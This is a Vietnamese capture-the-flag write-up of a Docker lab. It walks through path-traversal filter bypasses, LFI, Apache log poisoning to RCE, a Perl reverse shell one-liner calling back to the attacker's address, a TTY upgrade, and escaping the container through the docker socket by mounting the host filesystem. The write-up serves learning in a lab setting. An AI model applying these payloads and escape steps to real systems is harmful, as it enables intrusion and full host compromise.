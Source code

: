 # Writeup Docker Lab (Docker container escape via docker socket)

## Giao diện bài lab  
![alt text](image.png)

> Trông khá đơn giản nhỉ
Đầu tiên mình recon xem web có những path nào , ở đây mình dùng dirsearch 

![alt text](image-2.png)

Thấy có .htaccess thì web server ở đây là apache và thấy có *"/include"* 

![alt text](image-3.png)  
biết được thêm nó chạy *"Apache/2.2.52 Unbuntu"* và các file này chắc là được include vào 

![alt text](image-4.png)  
và hình như điều đó là đúng , nếu là include file thì maybe LFI(Local File Inclusion), và mình thấy nó *"include\pathfile" vì nãy mình dirsearch thấy nó có folder include*

Thử đọc */etc/passwd* xem sao  
![alt text](image-5.png)  
Có vẻ author đã filter, thử các đường dẫn mà quyền các user bình thường có xem được (Vì apache chạy dưới quyền www-data)  
Ví dụ như  :   /etc/group , /etc/hotst , /etc/motd , /proc/mounts , /proc/net/arp 

![alt text](image-6.png)  
Có vẻ đã bị filter hết rồi :>>>

Thử với :/etc/fstab : , chứa các mount point để khi hệ thống khởi động lên sẽ mount với device 

![alt text](image-8.png)  
Nhưng mà không có thông báo detecd hacking , thì khả năng author filter bằng blacklist   

![alt text](image-9.png)  
Thử *?file=../include/home.php* mà không được thì khả năng là ../ không được thực thi , có vẻ author cũng sẽ filter cái này  
![alt text](image-10.png)  
Thử bypass bằng ..././ và bypass =>  filter "../" bằng "" 

Thử độc /etc/fstab như trên xem được không  ? 

![alt text](image-11.png)  

Tiếp tục với  /etc/mtab là một tập tin trong hệ thống Linux và Unix, chứa thông tin về các file hệ thống được gắn kết (mounted) vào hệ thống tại thời điểm hiện tại. 

![alt text](image-12.png)

Có vẻ web server này đang được chạy trên docker 

Tiếp đó mình tiến hành fuzzing thử xem :
Payload mình lấy ở đây :  
[Payload](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2)

Sau khi chạy 1 hồi thì mình thấy mình có thể đọc được file log của apache => Từ đó mình có thể RCE qua đây  
![alt text](image-13.png)

![alt text](image-14.png)  
![alt text](image-15.png)  
mình đã thực thi được lệnh giờ thì tìm flag thôi 

```js
find / -type f -name flag.txt
```

![alt text](image-16.png)

![alt text](image-17.png) 

Tiến hành reverse shell 
kiểm tra xem nó hỗ trợ các loại nào 
![alt text](image-18.png)

Payload reverse shell  
```js
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.19.0.3:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![alt text](image-20.png)

![alt text](image-21.png)
Chúng ta đang dứới quyền www-data của apache 

Kiểm tra tiếp container này đang hỗ trợ loại shell nào ? 
```js
cat /etc/shells
```
![alt text](image-22.png)  

Shell của mình ở đây bị hạn chế interact nên mình sẽ tìm cách lên fully iteractive shell 

1 . FULL TTY with python 

```js 
//kiểm tra xem có python ở trong container hay không 
which python python2 python3 
```

ok ở đây mình có *python3* 
![alt text](image-23.png)

```js 
python3 -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell

```

![alt text](image-24.png)

Để escape container thì mình tìm thấy vector là docker socket 

Kiểm tra *mount -l | grep sock "  
![alt text](image-25.png)  

![alt text](image-26.png)  
Thử dùng docker thì báo ko có quyền vào file docker.sock 

![alt text](image-27.png)   
Kiểm tra thấy thì có group docker được sử dụng , tiến hành tìm kiếm để lên được quyền docker 

```js
cat /etc/group | grep docker  
```

![alt text](image-28.png) 
và có thằng user_docker là thuộc vào group này 

Tìm kiếm loang quanh 1 hồi thì mình thấy file này trong container 
```js 
username: user_docker 
password: qaz@123
```
mình tiến hành đăng nhập vào user_docker 
```js
// kiểm tra xem 
docker ps  
```
![alt text](image-29.png)
Có thể thấy cái web mình đang run là 1 container và mình đã có thể nói chuyện với docker daemon của host
```js 
docker run -it -v /:/host/  ubuntu bash 
```
Câu lệnh  trên đã mount toàn bộ filesystem của host vào trong /host của container mới 

![alt text](image-30.png) 

Lấy flag thôi 
